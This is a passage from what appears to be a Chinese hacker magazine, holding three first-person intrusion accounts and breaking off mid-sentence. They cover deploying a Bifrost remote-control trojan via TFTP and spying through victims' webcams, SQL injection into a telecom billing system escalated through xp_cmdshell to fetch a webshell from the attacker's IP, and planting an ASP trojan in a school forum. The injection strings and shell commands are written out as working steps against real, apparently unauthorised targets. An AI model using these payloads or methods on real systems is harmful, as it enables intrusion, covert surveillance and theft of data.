

```text
TFTP -i 192.168.0.100 GET server.exe c:\winnt\server.exe
```

这个命令每台机器几乎都带，也可算是 MS 留下的一个“BACKDOOR”吧！其中“192.168.0.100”是源 IP，“GET”是将文件传到远程主机（若是“PUT”则相反），“server.exe”是上面生成的远控程序，“c:\winnt\server.exe”是远程机存放路径。填好后点击“开始执行”，若命令正确会出现提示框（图6），提示进程 ID（PID），至此文件传输成功！



接下来就是远程执行了，方法同上，具体参数看图7即可。同样，执行成功后也会有提示框，一定要记住其后的进程 ID 号哦，否则下面是不会成功的！



# 四、远程控制

执行后稍等，被控端会自动连接上来，在被控端上面单击右键即可看到所有的控制功能（图8）。



如果有摄像头的话可选择其中的“Cam Capture”，在出现的窗口中点击“Single”，这样可以单画面监视；如果嫌麻烦，可以设置间隔时间，点击“Start”进行连续监视（图9）。



屏幕监视也不多说了，要进行远程控制的话只要选中下面的“Keyboard”和“Mouse”即可，其他和上面的完全一样（图10）。



至此，入侵成功，下面要做的就是发挥自己的想象了，这个就留给大家作为“课后作业”吧！哈哈！

# 五、写在最后

既然上面的入侵步骤如此简单，相信一个刚入门的菜鸟级人物也能完成，那么网络是不是就真的不安全了呢？其实不然，只要你有足够的安全意识，经常杀毒和打补丁，还有就是更改密码，这样即使是新的病毒和木马也没有任何渗透的机会，不是吗？

（文中涉及到的程序 Bifrost v1.1、TFTPD32、Recton v2.0 已收录于光盘中）

# 渗透电信话费查询系统

黑客病毒 [E.S.T]

# 一个人的战争

说到圣诞节了，我们这边的雪下得可真大呀。上班下班=学习网络安全，这段是我个人的生活习惯了。趁下班前泡一杯咖啡，暖暖地在家里学习，发现新的东西。也许吧！这就是黑客的生活（个人感觉）啊。可是今天我给大家带来的是渗透我们本地电信做的一个话费查询系统。说起来渗透这个网站，也是偶然发起的灵感。晚上下班回家，老妈让我帮她查查她的小灵通手机本月的话费是多少，我一想我们本地电信信息港上不就有一个话费查询的系统吗？马上打开进入查了查，一开始进入的时候并没有想到要入侵它什么，整个页面是 HTML 的，而且也没有什么连接的地方，一眼看上去根本谈不上什么注入。可是在查完的时候，突然想到提交存储电话号码和密码的框，如图1。



是否直接在电话号码里面填入 `or''='`，密码里面也填入 `or''='` 字符看看能不能通过验证；用怀疑的心态去试了一下，看看他们代码是否有写作上的疏忽。令我大吃一惊的是居然真的存在，成功地通过验证进入了查询系统。但是这些怎么能渗透主机得到 webshell 呢？进一步检测，在电话号码里填入 `and 1=(select @@version) and 1='1` 查看系统信息，密码填入任意字符，确定，嘿嘿报错了，成功查看到了系统信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
>
> [Microsoft][ODBC SQL Server Driver][SQL Server] Syntax error converting the nvarchar value 'Microsoft SQL Server 7.00 - 7.00.623 (Intel X86) Nov 27 1998 22:20:07 Copyright (c) 1988-1998 Microsoft Corporation Desktop Edition on Windows NT 5.0 (Build 2195...)'

很显然是 Win2000 系统 + SP4 补丁；数据库是 MSSQL 7.0。到这里已经对系统有了一定的了解，下面的注入会方便些。好了继续检测，依次提交语句如下：`exec master.dbo.xp_cmdshell 'ping myIP'`，证明一下服务器是否和数据库在同一台机器上。防火墙的 ICMP 数据包回显证明了这一切，服务器和数据库在同一台机器上，如图2。



这样的好处也证明了 SQL 扩展存储功能 xp_cmdshell 可用。xp_cmdshell 可用那还不好说呀。呵呵！渗透它不是更方便了（偷笑中！）

现在如果能知道对方 web 绝对路径，就能用软件写入一个 webshell 了，那不是更爽了。但是……！（个人感觉：那个工具我一次都没有成功过）还是老老实实地用手工来暴出所有盘符的文件，逐个猜测它的 web 绝对路径吧。这里用到的方法是 lcx 在《黑客 X 档案》第 8 期中《后台的猜解》一文的方法。在这里我就不做详解了。很简单的。

提交的语句如下：

```sql
CREATE TABLE qimeng (
  subdirectory nvarchar(255) NULL,
  depth tinyint NULL,
  [file] bit NULL
);

insert qimeng exec master..xp_dirtree 'd:\\',1,1;

and 0<>(select top 1 subdirectory from qimeng where subdirectory not in (select top 1 subdirectory from qimeng));

and 0<>(select top 1 subdirectory from qimeng where subdirectory not in (select top 2 subdirectory from qimeng));
```

等我把每个盘符文件暴出以后，发现 `e:\hf\` 下的文件可能就是 web 绝对路径。试图想用：`exec master.dbo.xp_cmdshell 'tftp -i myIP get 后门.txt';` 上传一个 webshell，但失败了。恼火呀。继续！！！用写入 FTP 上传：

```sql
exec master.dbo.xp_cmdshell 'echo open 127.0.0.1 > qimeng.txt'
exec master.dbo.xp_cmdshell 'echo user >> qimeng.txt'
exec master.dbo.xp_cmdshell 'echo paswd >> qimeng.txt'
exec master.dbo.xp_cmdshell 'echo get webshell.asp >> qimeng.txt'
exec master.dbo.xp_cmdshell 'echo bye >> qimeng.txt'
exec master.dbo.xp_cmdshell 'ftp -s:qimeng.txt'
```

又一次失败了，不能盲目地去提交了，好好想想。用 xiaolu 的一篇文件里的方法试一下，提交如下：`create table [x] ([x1] [varchar](255), [x2] [varchar](255))`，结果成功。

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
>
> [Microsoft][ODBC SQL Server Driver][SQL Server] Syntax error converting the nvarchar value 'x' to a column of data type int.
>
> /reg.asp, 行12
>
> insert into x(x1) exec master.dbo.xp_cmdshell 'tftp -i myIP get help.cer e:\\hf\\help.cer'



上传成功，如图3。成功得到了一个 webshell 了，如图4。



接下来就是再传一个大的 webshell 了。本文就不往下演示了，相信大家都会。上传完了就是要拿主机权限了。这台主机我先告诉大家一下里面的基本情况：内有 radmin 软件、pcAnywhere 服务、Serv-U 服务，我想提升权限应该不是问题。而且启动项目还可以上传文件，传个 bat 也可以提升权限。（注：本文一切提交数据全部是在电话号码框里添加 SQL 语句执行）这篇文章没有什么新技术可言，就算我写此文章给大家温故而知新吧！全文有不妥之处还请高手指点！

# 一个人的战争

## 一次针对一个大宝网站的入侵手记

坐封记忆

看《黑客X档案》有好一段时间，桌子上厚厚一叠就能说明了。我很喜欢里面的文章，每次拿到新的就爱不释手，常常看。别人的文章看多了，心里总痒痒，所以就写了这篇记录我一次真实入侵过程的文章。第一次写，不对之处，请大家多多包涵！

前些天，闲着没事，就决定看看我朋友学校网站的安全情况。在百度里搜索了他们学校的名字，结果很快出来。进去主页以后，看了看网站情况，有一个论坛和一个文章系统，随便试了试注入，好像所有页面都调用了同一个 ASP 文件，所以每次都返回首页去了！郁闷！算了，再打开他们学生会的网站……

注册时的论坛协议页面！啊啊！正好放木马！试试吧！我先给论坛里面的内容做了备份，然后再把自己写的 ASP 木马内容拷进去，点击“提交修改”，然后马上去看看结果！很走运，进去了，而且权限还很大，什么盘都可以浏览，也可以执行一般的 CMD 命令，看来管理员有些大意。用新传的木马重新写了个木马，然后再把那个注册协议页面恢复了一下，就接着下一步工作了。先看看开了哪些服务，在 ASP 站长助手的 CMD 命令中输入“net start”……



不过网管还有点安全意识，文件名加了“#”。没关系，把“#”换成“%23”就可以了（关于数据库安全，我将在下面说说我的理解）。下载了数据库后，打开发现密码都是 MD5 加密的……再看看备份！出现以下页面，如图2。



居然没有权限，这个管理员权限也太小了吧！！没办法，再看看别的，我把管理选项一个一个看过来！哈哈！居然让我找到了这个，如图3。





现在好办了，把它们都下载下来用 